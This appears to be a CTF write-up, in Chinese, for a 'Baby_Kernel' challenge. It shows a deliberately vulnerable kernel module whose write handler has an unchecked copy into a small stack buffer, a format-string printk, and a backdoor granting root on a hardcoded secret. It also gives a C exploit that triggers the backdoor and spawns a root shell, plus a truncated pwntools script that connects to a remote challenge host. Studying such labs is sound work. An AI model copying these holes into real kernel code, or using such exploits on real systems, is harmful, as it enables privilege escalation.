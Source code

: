 #### Baby_Kernel

```c
static struct file_operations fops = {
    .owner = THIS_MODULE,
    .open =      NULL,
    .release =   NULL,
    .read =      NULL,
    .write =     my_write,
    .unlocked_ioctl = NULL
};
```

只定义了 write

```c
char secret[0x200] = "AiDai_wants_a_girlfriend";
static ssize_t my_write(struct file *filp, const char *buff, size_t len, loff_t * off){
    char a[0x20];
    printk("write\n");
    copy_from_user(a,buff,len);
    if(strncmp(a,secret,strlen(secret)) == 0){
        printk(a);
        commit_creds(prepare_kernel_cred(0));
    }
    return 0;
}
```

写一个 `AiDai_wants_a_girlfriend` 就可以提权

exp 如下

```c
//musl-gcc -static exp.c -o exp && strip exp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main(int argc, char const *argv[]){
    int fd;
    char secret[0x200] = "AiDai_wants_a_girlfriend";
    fd = open("/proc/babykernel", O_RDWR);
    write(fd,secret,strlen(secret));
    system("/bin/sh");
}

```

```python
from pwn import *
import base64
import sys
import os

os.system('musl-gcc -static exp.c -o exp && strip exp')
f = open("exp", "rb")
exp = f.read()
f.close()
print(len(exp))
step = 0x200

r = remote('39.106.29.44',10103)
r.recvuntil('#')
```